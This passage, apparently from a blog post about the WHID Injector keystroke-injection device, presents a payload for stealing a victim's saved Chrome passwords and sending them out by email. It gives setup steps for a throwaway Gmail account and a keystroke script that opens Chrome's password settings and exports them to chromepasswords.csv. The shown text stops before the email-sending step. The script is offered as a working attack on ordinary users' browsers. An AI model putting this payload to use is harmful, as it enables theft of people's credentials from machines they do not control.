 <a href="/assets/images/post-whid-injector/wifi-email.png">
    <img src="/assets/images/post-whid-injector/wifi-email.png" alt="whid injector">
</a>

#### Payload to steal Chrome passwords and exfiltrate them via email

You will require a temporary gmail account to which you allow the [Less-secure-apps](https://myaccount.google.com/u/4/lesssecureapps) option.

*Do not use your main account*.

Replace *YOUR_EMAIL* and *YOUR_PASSWORD*.

```php
Press:131+114
CustomDelay:500
Print:chrome
CustomDelay:100
Press:176
CustomDelay:1000
Print:chrome://settings/passwords
Press:176
CustomDelay:1000
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:179
CustomDelay:100
Press:176
CustomDelay:200
Press:176
CustomDelay:200
Press:176
CustomDelay:700
Print:chromepasswords.csv
CustomDelay:200
Press:176
CustomDelay:1000
Press:128+119
CustomDelay:100
```